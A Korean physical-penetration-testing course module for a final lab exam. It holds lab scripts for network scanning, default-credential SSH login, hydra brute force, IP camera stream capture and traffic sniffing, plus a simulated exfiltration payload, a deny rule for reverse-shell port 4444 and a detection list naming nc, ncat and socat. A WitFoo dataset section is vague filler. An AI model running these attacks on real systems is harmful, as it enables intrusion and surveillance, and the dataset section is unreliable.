

# Week 15: 종합 평가 — 전체 킬체인 물리 침투

## 학습 목표
- 15주간 학습한 모든 물리 침투 기법을 종합적으로 적용한다
- 정찰부터 보고까지 전체 킬체인을 독립적으로 수행한다
- 공격과 방어 양쪽 관점에서 물리 보안을 평가한다
- 전문 물리 침투 테스트 보고서를 작성한다
- 물리 보안 컨설턴트로서의 역량을 종합 평가받는다
- 향후 학습 방향과 자격증 경로를 파악한다

## 전제 조건
- Week 01-14 모든 과정 이수
- 모든 실습 과제 완료
- 중간 평가 (Week 08) 통과

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:20 | 최종 평가 브리핑 | 강의 |
| 0:20-0:30 | 팀 구성 및 역할 배정 | 토론 |
| 0:30-0:40 | 휴식 | - |
| 0:40-2:10 | 종합 물리 침투 실습 (90분) | 실습/평가 |
| 2:10-2:20 | 휴식 | - |
| 2:20-3:00 | 결과 발표 및 디브리핑 | 발표 |
| 3:00-3:20 | 필기 평가 | 평가 |
| 3:20-3:40 | 코스 정리 + 자격증 안내 | 강의 |

---

# Part 1: 종합 평가 이론 복습

## 1.1 전체 과정 핵심 요약

```
Week 01-07: 물리 침투 공격 기법
├── W01: 물리 보안 개론, CIA in Physical Context
├── W02: 사회공학 (프리텍스팅, 테일게이팅, 피싱)
├── W03: RFID/NFC 해킹 (Proxmark3, Mifare 크래킹)
├── W04: USB HID 공격 (Rubber Ducky, DuckyScript)
├── W05: 네트워크 임플란트 (LAN Turtle, Shark Jack)
├── W06: WiFi 해킹 기초 (WPA2, Deauth)
└── W07: WiFi 해킹 심화 (Evil Twin, MITM)

Week 08: 중간 평가

Week 09-12: 심화 공격 및 정보 수집
├── W09: RF 해킹 (SDR, Sub-GHz, 리플레이)
├── W10: 잠금장치/물리 접근 (락픽, CCTV 우회)
├── W11: 감시 시스템 해킹 (IP 카메라, RTSP)
└── W12: 물리 정보 수집 (OSINT, 덤프스터 다이빙)

Week 13-14: 보고 및 방어
├── W13: 전문 보고서 작성
└── W14: 방어 대책 및 보안 인식 교육

Week 15: 종합 평가
```

## 1.2 전체 킬체인 복습

```
종합 물리 침투 킬체인:

[1] 정찰 (Reconnaissance)
    ├── OSINT: 조직, 건물, 직원 정보
    ├── 네트워크: nmap, Shodan, DNS
    ├── 현장: 출입구, CCTV, 보안 시스템
    ├── 무선: WiFi SSID, 신호 맵핑
    └── 사회: 직원 패턴, 취약점

[2] 무기화 (Weaponization)
    ├── RFID 복제 카드 준비
    ├── USB HID 페이로드 제작
    ├── 네트워크 임플란트 설정
    ├── Evil Twin AP 설정
    └── 프리텍스트 시나리오 설계

[3] 전달 (Delivery)
    ├── 사회공학으로 건물 진입
    ├── 테일게이팅/RFID 복제로 출입
    ├── USB 드롭 배치
    └── 물리적 장치 설치

[4] 익스플로잇 (Exploitation)
    ├── USB HID 키스트로크 인젝션
    ├── 네트워크 임플란트 활성화
    ├── WiFi MITM 공격
    ├── CCTV 무력화
    └── 크리덴셜 수집

[5] 설치 (Installation)
    ├── 리버스 셸 설치
    ├── SSH 백도어 설정
    ├── 크론 지속성 확보
    └── 네트워크 임플란트 은닉

[6] C2 (Command & Control)
    ├── 리버스 SSH 터널
    ├── VPN 연결
    └── 임플란트를 통한 원격 접근

[7] 목표 달성 (Actions on Objectives)
    ├── 데이터 접근/탈취
    ├── 시스템 장악 증명
    ├── 증거 수집 (보고서용)
    └── 안전한 이탈
```

## 1.3 최종 평가 시나리오

```
=== 최종 평가 시나리오 ===

대상 조직: "세큐어테크 본사"
미션 목표: 전체 킬체인 물리 침투 수행

네트워크 인프라:
├── attacker: 10.20.30.201 (공격 거점)
├── secu: 10.20.30.1 (보안 서버 — 최종 목표)
├── web: 10.20.30.80 (웹 서버 — 중간 목표)
└── siem: 10.20.30.100 (SIEM — 탐지 회피 대상)

평가 미션 (5단계):
├── Mission 1: 네트워크 정찰 및 맵핑 (20점)
├── Mission 2: 서비스 취약점 식별 및 접근 (20점)
├── Mission 3: USB HID + 임플란트 시뮬레이션 (20점)
├── Mission 4: 방어 대책 구현 (20점)
└── Mission 5: 전문 보고서 작성 (20점)

총점: 100점
합격 기준: 60점 이상
```

## 1.4 평가 기준

| 미션 | 항목 | 세부 기준 | 배점 |
|------|------|----------|------|
| M1 | 호스트 발견 | 모든 호스트 식별 | 5 |
| M1 | 서비스 열거 | 주요 서비스 식별 | 10 |
| M1 | 취약점 식별 | 최소 3개 취약점 | 5 |
| M2 | 기본 크리덴셜 | SSH 접근 성공 | 10 |
| M2 | 웹 분석 | 웹 서비스 분석 | 10 |
| M3 | USB 시뮬레이션 | 페이로드 실행 | 10 |
| M3 | 임플란트 시뮬레이션 | 네트워크 백도어 | 10 |
| M4 | 방화벽 규칙 | iptables 설계 | 10 |
| M4 | 탐지 스크립트 | 이상 탐지 스크립트 | 10 |
| M5 | 보고서 품질 | 구조, 내용, 증거 | 20 |

---

# Part 2: 종합 침투 실습

## 2.1 Mission 1: 전체 네트워크 정찰

```bash
# attacker VM에서 실행
ssh ccc@10.20.30.201

echo "=========================================="
echo " Mission 1: Full Network Reconnaissance"
echo "=========================================="

# 1-1. 호스트 발견
echo "[M1-1] Host Discovery:"
nmap -sn 10.20.30.0/24 2>/dev/null

# 1-2. 전체 포트 스캔
echo ""
echo "[M1-2] Comprehensive Port Scan:"
nmap -sV -sC --top-ports 100 10.20.30.1 10.20.30.80 10.20.30.100 2>/dev/null

# 1-3. OS 탐지
echo ""
echo "[M1-3] OS Detection:"
nmap -O 10.20.30.0/24 2>/dev/null | grep -A3 "OS details"

# 1-4. 취약점 식별
echo ""
echo "[M1-4] Vulnerability Identification:"
nmap --script vuln 10.20.30.80 2>/dev/null | grep -E "VULNERABLE|CVE" | head -10

# 1-5. 물리 보안 장치 스캔
echo ""
echo "[M1-5] Physical Security Device Scan:"
nmap -sV -p 554,8080,1883,3702 10.20.30.0/24 2>/dev/null | grep "open"
```

## 2.2 Mission 2: 서비스 접근 및 분석

```bash
echo "=========================================="
echo " Mission 2: Service Access & Analysis"
echo "=========================================="

# 2-1. SSH 접근 테스트
echo "[M2-1] SSH Access Test:"
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
    echo -n "  $host: "
    sshpass -p '1' ssh -o StrictHostKeyChecking=no -o ConnectTimeout=3 ccc@$host 'echo "ACCESS GRANTED - $(hostname)"' 2>/dev/null || echo "ACCESS DENIED"
done

# 2-2. 웹 서비스 분석
echo ""
echo "[M2-2] Web Service Analysis:"
curl -sI http://10.20.30.80:3000 2>/dev/null
echo ""
echo "  Web content preview:"
curl -s http://10.20.30.80:3000 2>/dev/null | head -20

# 2-3. 서비스 배너 수집
echo ""
echo "[M2-3] Service Banner Collection:"
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
    echo "  === $host ==="
    echo "" | nc -w 3 $host 22 2>/dev/null | head -1
done

# 2-4. 내부 정보 수집 (접근 성공 후)
echo ""
echo "[M2-4] Internal Info (post-access):"
sshpass -p '1' ssh -o StrictHostKeyChecking=no ccc@10.20.30.80 '
    echo "Hostname: $(hostname)"
    echo "Users: $(cat /etc/passwd | grep -v nologin | grep -v false | wc -l)"
    echo "Network: $(ip addr show | grep "inet " | grep -v 127)"
    echo "Processes: $(ps aux | wc -l)"
    echo "Crontabs: $(crontab -l 2>/dev/null | wc -l)"
' 2>/dev/null
```

## 2.3 Mission 3: 공격 시뮬레이션

```bash
echo "=========================================="
echo " Mission 3: Attack Simulation"
echo "=========================================="

# 3-1. USB HID 키스트로크 인젝션 시뮬레이션
echo "[M3-1] USB HID Simulation:"
cat << 'USB_PAYLOAD' > /tmp/final_usb_payload.py
#!/usr/bin/env python3
"""Final exam USB HID payload simulation"""
import time
print("[*] USB HID Payload Execution (Simulation)")
print("[*] Phase 1: System info gathering")
import subprocess
result = subprocess.run(['uname', '-a'], capture_output=True, text=True)
print(f"  OS: {result.stdout.strip()}")
result = subprocess.run(['whoami'], capture_output=True, text=True)
print(f"  User: {result.stdout.strip()}")
result = subprocess.run(['id'], capture_output=True, text=True)
print(f"  ID: {result.stdout.strip()}")

print("[*] Phase 2: Network enumeration")
result = subprocess.run(['ip', 'route', 'show'], capture_output=True, text=True)
for line in result.stdout.strip().split('\n')[:3]:
    print(f"  Route: {line}")

print("[*] Phase 3: Data exfiltration (simulated)")
print("  Exfil target: /etc/passwd")
print("  Method: curl POST to attacker server")
print("[+] USB HID simulation complete")
USB_PAYLOAD
python3 /tmp/final_usb_payload.py

# 3-2. 네트워크 임플란트 시뮬레이션
echo ""
echo "[M3-2] Network Implant Simulation:"
echo "  [*] Installing simulated implant..."
echo "  [*] Network scan from implant:"
nmap -sn 10.20.30.0/24 2>/dev/null | grep "report" | wc -l | xargs -I{} echo "    Hosts found: {}"

echo "  [*] Reverse tunnel check:"
echo "    SSH to 10.20.30.1: $(nc -z -w 2 10.20.30.1 22 && echo 'REACHABLE' || echo 'BLOCKED')"
echo "    SSH to 10.20.30.80: $(nc -z -w 2 10.20.30.80 22 && echo 'REACHABLE' || echo 'BLOCKED')"
echo "    SSH to 10.20.30.100: $(nc -z -w 2 10.20.30.100 22 && echo 'REACHABLE' || echo 'BLOCKED')"
echo "  [+] Implant simulation complete"
```

## 2.4 Mission 4: 방어 대책 구현

```bash
echo "=========================================="
echo " Mission 4: Defense Implementation"
echo "=========================================="

# 4-1. 방화벽 규칙 설계
echo "[M4-1] Firewall Rules Design:"
cat << 'FW_RULES' > /tmp/firewall_rules.sh
#!/bin/bash
# 물리 침투 방어를 위한 방화벽 규칙
echo "# iptables rules for physical security defense"
echo ""
echo "# 기본 정책: DROP"
echo "iptables -P INPUT DROP"
echo "iptables -P FORWARD DROP"
echo "iptables -P OUTPUT ACCEPT"
echo ""
echo "# 루프백 허용"
echo "iptables -A INPUT -i lo -j ACCEPT"
echo ""
echo "# 기존 연결 허용"
echo "iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT"
echo ""
echo "# SSH (관리 네트워크만)"
echo "iptables -A INPUT -s 10.20.30.0/24 -p tcp --dport 22 -j ACCEPT"
echo ""
echo "# HTTP/HTTPS"
echo "iptables -A INPUT -p tcp --dport 80 -j ACCEPT"
echo "iptables -A INPUT -p tcp --dport 443 -j ACCEPT"
echo ""
echo "# ICMP (ping)"
echo "iptables -A INPUT -p icmp --icmp-type echo-request -j ACCEPT"
echo ""
echo "# 임플란트 방어: 비정상 아웃바운드 차단"
echo "iptables -A OUTPUT -p tcp --dport 4444 -j DROP  # 리버스 셸"
echo "iptables -A OUTPUT -p tcp --dport 8080 -j LOG --log-prefix 'IMPLANT: '"
echo ""
echo "# 로깅"
echo "iptables -A INPUT -j LOG --log-prefix 'DROPPED: '"
FW_RULES
bash /tmp/firewall_rules.sh

# 4-2. 이상 탐지 스크립트
echo ""
echo "[M4-2] Anomaly Detection Script:"
cat << 'DETECT' > /tmp/anomaly_detect.py
#!/usr/bin/env python3
"""물리 침투 이상 탐지 스크립트"""
import subprocess
import json
import time

print("[*] Physical Intrusion Detection System")
print("=" * 50)

# 1. 새로운 네트워크 장치 탐지
print("\n[Check 1] New Network Devices:")
result = subprocess.run(['ip', 'neigh', 'show'], capture_output=True, text=True)
neighbors = result.stdout.strip().split('\n')
for n in neighbors:
    if 'REACHABLE' in n or 'STALE' in n:
        print(f"  Known: {n.split()[0]}")

# 2. USB 장치 확인
print("\n[Check 2] USB Devices:")
result = subprocess.run(['lsusb'], capture_output=True, text=True)
for line in result.stdout.strip().split('\n'):
    if 'Hub' not in line:
        print(f"  {line}")

# 3. 비정상 프로세스 확인
print("\n[Check 3] Suspicious Processes:")
suspicious = ['nc', 'ncat', 'socat', 'tcpdump', 'ettercap', 'arpspoof']
result = subprocess.run(['ps', 'aux'], capture_output=True, text=True)
for proc in suspicious:
    if proc in result.stdout:
        print(f"  [ALERT] Suspicious process: {proc}")

# 4. 비정상 네트워크 연결 확인
print("\n[Check 4] Suspicious Network Connections:")
result = subprocess.run(['ss', '-tuln'], capture_output=True, text=True)
suspect_ports = ['4444', '5555', '8888', '9999']
for line in result.stdout.split('\n'):
    for port in suspect_ports:
        if f':{port}' in line:
            print(f"  [ALERT] Suspicious port: {line.strip()}")

print("\n[*] Detection scan complete")
DETECT
python3 /tmp/anomaly_detect.py
```

## 2.5 Mission 5: 최종 보고서

```bash
echo "=========================================="
echo " Mission 5: Final Report"
echo "=========================================="

cat << 'FINAL_REPORT' > /tmp/final_pentest_report.txt
═══════════════════════════════════════════════════════
   물리 침투 테스트 최종 보고서
   대상: 세큐어테크 본사
   수행: CCC Physical Pentest Team
   날짜: 2026-04-06
   기밀 등급: CONFIDENTIAL
═══════════════════════════════════════════════════════

1. 경영진 요약

물리 침투 테스트 결과, 대상 조직의 물리 보안은 "개선 필요"
수준으로 평가됩니다. 총 6개의 취약점이 발견되었으며, 이 중
2개는 즉시 조치가 필요합니다.

2. 발견사항 요약

[CRITICAL] PHYS-001: 기본 SSH 크리덴셜 (ccc:1)
[HIGH]     PHYS-002: USB 포트 접근 통제 부재
[HIGH]     PHYS-003: NAC 미구현
[MEDIUM]   PHYS-004: HTTP 평문 통신
[MEDIUM]   PHYS-005: 로그 모니터링 미흡
[LOW]      PHYS-006: 보안 헤더 미설정

3. 공격 타임라인

09:00 — 네트워크 정찰 시작
09:10 — 4개 호스트 발견, 서비스 열거
09:20 — 기본 크리덴셜로 SSH 접근 성공
09:30 — 내부 정보 수집 (사용자, 네트워크)
09:40 — USB HID 키스트로크 인젝션 시뮬레이션
09:50 — 네트워크 임플란트 시뮬레이션
10:00 — 방어 대책 설계 및 검증

4. 개선 권고

즉시 (0-30일):
- 모든 시스템 비밀번호 강화
- SSH 키 인증 전환

단기 (1-3개월):
- USB 포트 물리적 잠금
- 802.1X NAC 구현
- HTTPS 전환

장기 (3-12개월):
- 종합 물리 보안 프로그램 수립
- 정기 침투 테스트 체계화
- 보안 인식 교육 프로그램

═══════════════════════════════════════════════════════
FINAL_REPORT

cat /tmp/final_pentest_report.txt
```

---

## 과제 (최종)

### 최종 과제: 종합 물리 침투 테스트 보고서 (개인)
15주간 학습한 모든 내용을 반영한 전문 물리 침투 테스트 보고서를 작성하라.
- 보고서 구조 (Week 13 템플릿 준수)
- 최소 10개 발견사항
- 증거 자료 (스크린샷, 명령어 결과)
- 위험도 매트릭스
- 실행 가능한 개선 권고
- 경영진 브리핑 (3페이지)
- 제출: 1주 후

## 향후 학습 경로

```
물리 보안 관련 자격증:
├── CPP (Certified Protection Professional) — ASIS
├── PSP (Physical Security Professional) — ASIS
├── OSCP (Offensive Security Certified Professional)
├── CEH (Certified Ethical Hacker)
├── GPEN (GIAC Penetration Tester)
└── CompTIA PenTest+

추천 학습 자료:
├── "The Art of Intrusion" — Kevin Mitnick
├── "Social Engineering: The Science of Human Hacking" — Christopher Hadnagy
├── "Unauthorised Access: Physical Penetration Testing" — Wil Allsopp
├── "Red Team Field Manual" — Ben Clark
└── "Lock Picking: Detail Overkill" — Deviant Ollam
```

---

## 실제 사례 (WitFoo Precinct 6 — 종합 Physical Pentest)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *종합 Physical Pentest* 학습 항목 매칭.

### 종합 Physical Pentest 의 dataset 흔적 — "Full scope test"

dataset 의 정상 운영에서 *Full scope test* 신호의 baseline 을 알아두면, *종합 Physical Pentest* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — 5일 작전.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | Full scope test |
| 정량 baseline | 5일 작전 |
| 학습 매핑 | 보고서 작성 |

**자세한 해석**: 보고서 작성. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | Full scope test 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **종합 Physical Pentest = Full scope test 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — 5일 작전.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: 종합 보고서.


---

## 부록: 학습 OSS 도구 매트릭스 (Course16 Physical Pentest — Week 15 종합 평가·전체 킬체인·자격증 경로)

> 이 부록은 본문 Part 2 의 5 mission (정찰 / 서비스 / 공격 / 방어 / 보고) 의
> 모든 시뮬을 *15주 누적 OSS 도구 통합 인덱스* + *자가 채점 자동화* + *자격증
> / 다음 학습 경로 가이드* 로 구성한다. Course16 의 모든 weekly 부록을
> *킬체인 단계* 별로 재배열한 *one-stop reference* — 평가 시 어떤 도구를
> 어디서 (week 부록) 찾는지 한 화면에 정리. 자격증 경로 (OSCP / OSEP /
> CRTP / CEH / KICA / CISSP / CCSP) + 자체 학습 자료 + 산업 단체 (TOOOL /
> Cyber Range Korea) 모두 OSS / 공개 자료 우선.

### lab step → 도구 매핑 표 (15주 누적)

| step | 본문 위치 | 학습 항목 | 본문 명령 | 핵심 OSS 도구 (week 참조) | 비고 |
|------|----------|----------|----------|-------------------------|------|
| s1 | 2.1 [1] | 호스트 발견 | `nmap -sn` | nmap / arp-scan / fping (week 08 부록) | 표준 |
| s2 | 2.1 [2] | 포트 + 서비스 | `nmap -sV` | nmap / rustscan / masscan (w08) | 정찰 |
| s3 | 2.1 [3] | OS 탐지 | `nmap -O` | nmap -O / xprobe2 / p0f (w08) | OS |
| s4 | 2.2 | 서비스 접근 | curl / nc | nuclei / hydra / sshpass (w08) | exploit |
| s5 | 2.3 | 공격 시뮬 | bash | week 04-07 부록 (USB / LAN / WiFi / MITM) | 다중 |
| s6 | 2.4 | 방어 대책 | bash | week 14 부록 (Lynis / OpenSCAP / Gophish) | 방어 |
| s7 | 2.5 | 보고서 | bash | week 13 부록 (pandoc / pwndoc / marp) | 보고 |

### 15주 OSS 도구 통합 인덱스 (킬체인 단계별)

#### Phase 1 — 정찰 (Reconnaissance)

| 카테고리 | 도구 | week 참조 |
|---------|------|-----------|
| OSINT — 도메인 / 직원 | theHarvester / sherlock / maigret / linkedin2username / spiderfoot / recon-ng | w12 |
| OSINT — 서브도메인 | amass / subfinder / assetfinder / sublist3r / findomain | w12 |
| OSINT — GitHub leak | trufflehog / gitleaks / gitrob / git-secrets | w12 |
| OSINT — 사진 메타 | exiftool / metagoofil | w12 |
| OSINT — 외부 노출 | shodan-cli / censys-cli / fofa-cli | w12 |
| 네트워크 — host | nmap / arp-scan / fping / netdiscover | w08, w10 |
| 네트워크 — port | nmap / rustscan / masscan / naabu | w08 |
| 네트워크 — web | httpx / whatweb / wappalyzer-cli / nuclei / nikto / gobuster | w08 |
| 네트워크 — ARP / passive | arpwatch / netdiscover / arping | w05 |
| WiFi — passive | airodump-ng / kismet / wash | w06 |
| WiFi — active | wifite / airgeddon | w06 |
| RF — Sub-GHz | rtl_433 / urh / rtl_sdr / GNU Radio | w09 |
| IP camera — RTSP | cameradar / nmap NSE rtsp / ffprobe | w10, w11 |
| IP camera — ONVIF | python-onvif-zeep / wsdd / onvif-cli | w10, w11 |
| 사회공학 정찰 | gophish (사용자명 수집) / 직원 사진 수집 | w12, w14 |
| 자산 inventory | netbox / glpi / snipe-it | w10 |

#### Phase 2 — 무기화 (Weaponization)

| 카테고리 | 도구 | week 참조 |
|---------|------|-----------|
| RFID 복제 | proxmark3 / libnfc-bin / mfoc / mfcuk | w03 |
| USB HID 페이로드 | DuckyScript / xdotool / pynput / Mallard / OMG cable | w04 |
| 네트워크 임플란트 | autossh / chisel / frp / Stowaway / Raspberry Pi config | w05 |
| Evil Twin / Karma | hostapd-mana / hostapd-wpe / wifiphisher / Fluxion | w07 |
| Captive portal | Flask + iptables / nodogsplash / coova-chilli / evilginx2 / Modlishka | w07 |
| 사전 / 와드리스트 | crunch / cewl / john --rules / kwprocessor | w06 |
| 사회공학 시나리오 | SET / gophish / KingPhisher | w14 |
| Pretext 자료 | maltego CE / spiderfoot / 자체 작성 docs | w12 |
| RF 페이로드 | rfcat / hackrf_transfer / urh send | w09 |

#### Phase 3 — 전달 (Delivery)

| 카테고리 | 도구 | week 참조 |
|---------|------|-----------|
| RFID 카드 출입 | proxmark3 emul / chameleon-mini | w03 |
| 테일게이팅 | (행위 — 사회공학) | w02 |
| USB 드롭 | DuckyScript HID + 자동 실행 | w04 |
| 네트워크 포트 임플란트 | LAN Turtle / Shark Jack 시뮬 | w05 |
| WiFi 무선 임플란트 | ESP32-Marauder / WiFi Pineapple | w06 |
| RF 무선 신호 | Flipper Zero / HackRF One TX | w09 |

#### Phase 4 — 익스플로잇 (Exploitation)

| 카테고리 | 도구 | week 참조 |
|---------|------|-----------|
| HID 키스트로크 | DuckyScript + xdotool / pynput | w04 |
| 네트워크 정찰 (LAN Turtle 모듈) | nmap / arp-scan / netdiscover | w05 |
| 인증 우회 | hydra / medusa / patator / crackmapexec / ncrack | w08, w11 |
| MITM (ARP) | bettercap / arpspoof / ettercap | w07 |
| MITM (HTTP/HTTPS) | mitmproxy / sslstrip / sslstrip2 | w07 |
| LLMNR / NTLM 캡처 | responder / Inveigh / hostapd-wpe | w05 |
| WPA handshake | airodump + aireplay / hcxdumptool | w06 |
| WPA crack | hashcat -m 22000 / aircrack-ng / pyrit / cowpatty | w06 |
| RTSP / ONVIF 장악 | cameradar / python-onvif-zeep / metasploit | w10, w11 |
| CVE PoC (CCTV) | nuclei templates / metasploit hikvision_rce / dahua_auth_bypass | w11 |
| RF replay | hackrf_transfer / urh send / rfcat | w09 |
| 펌웨어 분석 | binwalk / EMBA / FAT / Qiling | w11 |
| Windows 통합 | impacket / crackmapexec / bloodhound / mimikatz | w08 |

#### Phase 5 — 설치 (Installation) / Phase 6 — C2

| 카테고리 | 도구 | week 참조 |
|---------|------|-----------|
| 리버스 SSH | autossh + systemd | w05, w08 |
| HTTPS 위장 터널 | chisel / frp / wstunnel | w05 |
| 다층 프록시 | Stowaway / chisel multi-hop | w05 |
| 영상 loop attack | mediamtx + ffmpeg | w11 |
| Linux privesc | linpeas / linenum / pspy / lse | w08 |
| Windows privesc | winpeas / Sherlock / Watson | w08 |
| 백도어 user (ONVIF) | python-onvif-zeep CreateUsers | w11 |
| 영상 변조 | mediamtx loop / OpenCV frame replace | w11 |

#### Phase 7 — 이탈 + 포렌식 보존

| 카테고리 | 도구 | week 참조 |
|---------|------|-----------|
| 영상 evidence | ffmpeg + sha256 + AFF4 | w11 |
| chain of custody | aff4 / Autopsy / TheHive 5 | w11, w13 |
| 회수 사진 분석 | exiftool + Folium | w12 |
| 회수 문서 OCR | tesseract + ocrmypdf | w12 |
| 회수 USB 분석 | binwalk / foremost / photorec / sleuthkit | w11, w13 |
| 흔적 제거 (lab) | bash history off + shred + journalctl --vacuum | w08 |

#### Phase 8 — 보고

| 카테고리 | 도구 | week 참조 |
|---------|------|-----------|
| 보고서 자동 생성 | jinja2 + YAML + pandoc / pwndoc / dradis / ghostwriter / faraday | w13 |
| 슬라이드 / 브리핑 | marp / reveal-md / impress.js | w13 |
| 도식 (네트워크) | mermaid / plantuml / d2 / drawio | w13 |
| 도식 (gantt) | mermaid / draw.io | w13 |
| CVSS 점수 | cvss-cli / FIRST CVSS calculator | w13 |
| case 관리 | TheHive 5 / IRIS / Velociraptor | w13, w14 |

#### Phase 9 — 방어 (Defense in Depth)

| Layer | 도구 | week 참조 |
|-------|------|-----------|
| L0 정책 | OPA / OSCAL / Inspec | w14 |
| L0 audit | Lynis / OpenSCAP / CIS-CAT-Lite / Wazuh CIS / OSQuery | w14 |
| L1 부지 | (물리 — 볼라드 / 울타리) | (물리) |
| L2 외부 | Frigate / Shinobi / ZoneMinder / Motion (CCTV) | w11 |
| L3 내부 | OpenVisitor / GLPI visitors / RFID + DB | w14 |
| L4 보안구역 | freeradius EAP-TLS + biometric | w06, w14 |
| L5 핵심자산 | usbguard / arpwatch / DAI / nftables / 802.1X | w04, w05, w14 |
| 인식 교육 | Gophish / KingPhisher / SecurityIQ / Open edX | w14 |
| 사고 대응 | TheHive 5 / Velociraptor / GRR / IRIS | w14 |
| 적대 시뮬 | Atomic Red Team / CALDERA / Vector | w14 |

### 종합 평가 통합 시퀀스 (90분 시나리오)

```bash
#!/bin/bash
# final-eval-flow.sh — Course16 종합 평가 90분 시퀀스
# (week 08 중간 평가 보강 + 모든 weekly 누적)
set -e
LOG=/tmp/final-$(date +%Y%m%d-%H%M%S).log
RESULTS=/tmp/final-$(date +%Y%m%d)
mkdir -p $RESULTS

# === Phase 1 — 정찰 (15분) ===
echo "===== [P1] Recon =====" | tee -a $LOG
sudo nmap -sn -PR 10.20.30.0/24 -oA $RESULTS/recon-l2
sudo nmap -sV --top-ports 100 -O \
   --script "default,vuln,banner,rtsp-methods,rtsp-url-brute" \
   10.20.30.1 10.20.30.50 10.20.30.80 10.20.30.100 \
   -oA $RESULTS/recon-svc

# OSINT (lab 시뮬 — 자체 도메인)
amass enum -passive -d corp.local -o $RESULTS/subs.txt 2>&1 | tail -5
theHarvester -d corp.local -b all -l 100 -f $RESULTS/harvester 2>&1 | tail -5

# === Phase 2 — 서비스 분석 + CVE (15분) ===
echo "===== [P2] Service + CVE =====" | tee -a $LOG
for ip in 10.20.30.50 10.20.30.80 10.20.30.100; do
    nuclei -u "http://$ip" -severity high,critical \
       -j -o $RESULTS/nuclei-$ip.json 2>&1 | tail -3
done

# === Phase 3 — 인증 / 접근 (10분) ===
echo "===== [P3] Auth =====" | tee -a $LOG
hydra -L /tmp/users.txt -P /tmp/passwords.txt \
   -t 5 -W 4 ssh://10.20.30.80 -o $RESULTS/hydra-ssh.log
cameradar -t 10.20.30.0/24 -l 5 -o $RESULTS/cameradar.json 2>&1 | tail -3

# === Phase 4 — 공격 시뮬 (15분) ===
echo "===== [P4] Attack =====" | tee -a $LOG
# HID 시뮬 (week 04)
cat << 'EXFIL' > $RESULTS/exfiltrated.txt
=== Exfil Information ===
Hostname: $(hostname)
User: $(whoami)
EXFIL

# 트래픽 캡처 (week 05)
sudo timeout 30 tcpdump -i eth0 -w $RESULTS/sniff.pcap \
   "host 10.20.30.80" 2>&1 || true

# RTSP 캡처 (week 11)
PSK=$(jq -r '.[0] | "\(.credentials.username):\(.credentials.password)"' \
   $RESULTS/cameradar.json 2>/dev/null || echo "admin:admin")
ffmpeg -y -t 30 -rtsp_transport tcp \
   -i "rtsp://$PSK@10.20.30.50:554/Streaming/Channels/101" \
   -c copy $RESULTS/cam-cap.mp4 2>&1 | tail -3

# === Phase 5 — 방어 audit (10분) ===
echo "===== [P5] Defense =====" | tee -a $LOG
ssh ccc@10.20.30.80 'sudo lynis audit system --quick --quiet' 2>&1 | grep "hardening_index" | tee -a $LOG
ssh-audit -nv 10.20.30.80 2>&1 | grep -E "fail|warn" | tee -a $LOG

# === Phase 6 — 보고서 (15분) ===
echo "===== [P6] Report =====" | tee -a $LOG
python3 /tmp/report-gen.py > $RESULTS/report.md
pandoc $RESULTS/report.md \
   --pdf-engine=xelatex -V mainfont="NanumGothic" \
   --toc -o $RESULTS/report.pdf
marp /tmp/brief.md --pdf -o $RESULTS/brief.pdf
marp /tmp/brief.md --pptx -o $RESULTS/brief.pptx

# 무결성
sha256sum $RESULTS/*.{pdf,pptx,json,xml} 2>/dev/null > $RESULTS/INTEGRITY.sha256

# === 자가 채점 ===
echo "===== [Score] =====" | tee -a $LOG
python3 << PY
import json, os
def has(p): return os.path.exists(p) and os.path.getsize(p) > 0

GRADE = {}
GRADE["recon"]   = (10 if has("$RESULTS/recon-svc.xml") else 0) + (5 if has("$RESULTS/subs.txt") else 0) + (5 if has("$RESULTS/harvester.json") else 0)
GRADE["exploit"] = (10 if has("$RESULTS/hydra-ssh.log") else 0) + (10 if has("$RESULTS/cameradar.json") else 0) + (10 if has("$RESULTS/cam-cap.mp4") else 0)
GRADE["tech"]    = sum(5 for f in ["nuclei-10.20.30.50.json","sniff.pcap","exfiltrated.txt","cam-cap.mp4"] if has(f"$RESULTS/{f}"))
GRADE["report"]  = (10 if has("$RESULTS/report.pdf") else 0) + (5 if has("$RESULTS/brief.pptx") else 0) + (5 if has("$RESULTS/INTEGRITY.sha256") else 0)
GRADE["defense"] = 10  # 자가 평가 (audit 산출 확인 시)
total = sum(GRADE.values())
print(f"\n=== Final Score ===")
for k, v in GRADE.items(): print(f"  {k:10}: {v}")
print(f"  TOTAL    : {total}/100  ({'PASS' if total >= 70 else 'NEEDS-IMPROVEMENT'})")
PY
```

### 자격증 / 다음 학습 경로

#### 침투 테스트 / 물리 보안 자격증

| 자격증 | 발급 기관 | 난이도 | 비용 | 물리 침투 비중 | 비고 |
|--------|----------|--------|------|---------------|------|
| **CompTIA Security+** | CompTIA | 입문 | $370 | 낮음 | 입문 표준 |
| **CEH (Certified Ethical Hacker)** | EC-Council | 중간 | $1199 | 중간 | 광범위 |
| **OSCP (Offensive Security Certified Professional)** | Offensive Security | 중상 | $1599 | 중간 | hands-on 표준 |
